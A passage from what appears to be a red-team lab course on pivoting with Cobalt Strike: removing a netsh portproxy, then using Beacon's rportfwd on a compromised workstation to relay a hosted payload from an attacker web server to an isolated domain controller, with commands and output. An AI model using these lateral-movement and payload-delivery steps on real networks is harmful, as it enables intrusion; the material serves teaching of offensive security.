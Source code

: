 ```
PS C:\Users\Administrator\Desktop> hostname
ad

PS C:\Users\Administrator\Desktop> .\listener.ps1
Listening on port 4444
A client has connected
```

To remove the portproxy:

```
C:\>netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

Aspects to note about netsh port forwards:

* You need to be a local administrator to add and remove them, regardless of the bind port.
* They're socket-to-socket connections, so they can't be made through network devices such as firewalls and web proxies.
* They're particularly good for creating relays between machines.

#### rportfwd Command

Next, let's look at Beacon's `rportfwd` command.

In the lab and many corporate environments, workstations are able to browse the Internet on ports 80 and 443, but servers have no direct outbound access (because why do they need it?).

Let's imagine that we already have foothold access to a workstation and have a means of moving laterally to a server - we need to deliver a payload to it but it doesn't have Internet access to pull it from our Team Server. We can use the workstation foothold as a relay point between our webserver and the target.

If you don't already have a payload hosted via the Scripted Web Delivery, do so now. Then from _dc-2.dev.cyberbotic.io_, attempt to download it.

```
PS C:\> hostname
dc-2

PS C:\> iwr -Uri http://10.10.5.120/a
iwr : Unable to connect to the remote server
```

The syntax for the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`. On WKSTN-1:

```
beacon> rportfwd 8080 10.10.5.120 80
[+] started reverse port forward on 8080 to 10.10.5.120:80
```

This will bind port **8080** on the foothold machine, which we can see with **netstat**.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```
